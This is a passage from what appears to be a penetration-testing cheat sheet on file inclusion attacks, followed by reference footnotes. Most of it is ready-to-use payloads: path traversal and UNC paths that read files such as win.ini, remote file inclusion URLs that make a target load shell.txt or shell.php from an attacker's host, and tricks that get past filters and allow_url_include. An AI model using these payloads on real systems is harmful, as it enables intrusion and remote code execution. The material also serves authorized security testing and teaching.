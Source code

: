 ```text
..;/
http://{{< param "war.rdomain" >}}/page.jsp?include=..;/..;/sensitive.txt
```

### Windows UNC Share [^unc-share]

Windows UNC shares can be injected
to redirect access to other resources.

```text
\\localhost\c$\windows\win.ini
```

## RFI

Most filter bypassing techniques for LFI
can be used for RFI.

### Basic RFI

```text
http://{{< param "war.rdomain" >}}/index.php?page=http://{{< param "war.ldomain" >}}/shell.txt
```

### Null Byte

```text
http://{{< param "war.rdomain" >}}/index.php?page=http://{{< param "war.ldomain" >}}/shell.txt%00
```

### Bypass `http(s)://` removal

```text
hhttp://thttp://thttp://phttp://:http://http:///http:///
hhttps://thttps://thttps://phttps://shttps://:https:///https:///https://
```

### Bypass `allow_url_include`

On Windows,
it is possible to bypass disabled `allow_url_include` and `allow_url_fopen`
by using `SMB`.
Simply including a script
located in an open share.

```text
http://{{< param "war.rdomain" >}}/index.php?page=\\{{< param "war.lhost" >}}\share\shell.php
```

## PHP Stream Wrappers

PHP provides many built-in wrappers
for various protocols,
to use with file functions
such as `fopen`, `copy`, `file_exists`,
and `filezise`.
[^php-wrappers]


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.